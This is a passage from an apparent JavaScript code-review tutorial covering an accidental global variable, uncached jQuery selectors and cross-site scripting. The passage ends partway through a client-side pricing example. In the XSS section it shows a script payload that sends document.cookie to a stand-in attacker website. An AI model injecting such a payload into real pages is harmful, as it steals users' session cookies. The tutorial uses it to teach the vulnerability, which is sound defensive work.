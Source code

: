 The `methodThatAccidentlyCreatesAGlobalVariable()` creates a global `i` variable. The initial `for` loop will only run once.

__Discussion Points__
* What do you use to review code before you commit it?
* What do you use to catch these basic issues?

## More Complex JavaScript Code Issues to Look Out For

#### Uncached jQuery Selectors

```js
  $("#myHeader").hide();
  // do some things
  $("#myHeader").show();
```

In the above code, jQuery is searching the entire DOM tree to locate the `#myHeader` twice.

Instead, we should consider caching - storing the reference to the object in a variable.

```js
  var $myHeader = $(“#myHeader”);

  $myHeader.hide();
  // do some things
  $myHeader.show();
```

#### Cross-Site Scripting (XSS) Attack Vulnerability
Cross-site Scripting is when malicious scripts are inserted into the client-side code of a web site or application. You are vulnerable to this kind of attack when you use unvalidated or unencoded user input directly in your site.

Let's say an attacker wants to steal your users' cookies (I can't believe that's a real sentence in web development, but anyway... let's assume)

You could do something like that with this line of code:

```
<script>
  window.location='http://mysweethackingwebsite98736902/?cookie='+document.cookie
</script>
```

Now let's say that in your Blogger app, you take the contents of what someone types in a comment field - store it in the database - and then show it on a page.

Boom. Hacked.

Another example is - maybe you have a store online. Maybe you're selling very expensive t-shirts. Maybe you pull in information like price from the database.

Maybe you then run a sale that takes 10% off of the price and you do your calculation in JavaScript and then change the price on the page.

Maybe then, since you did the calculation in JavaScript, you rely on pulling in the t-shirt's price from the DOM when someone purchases it.
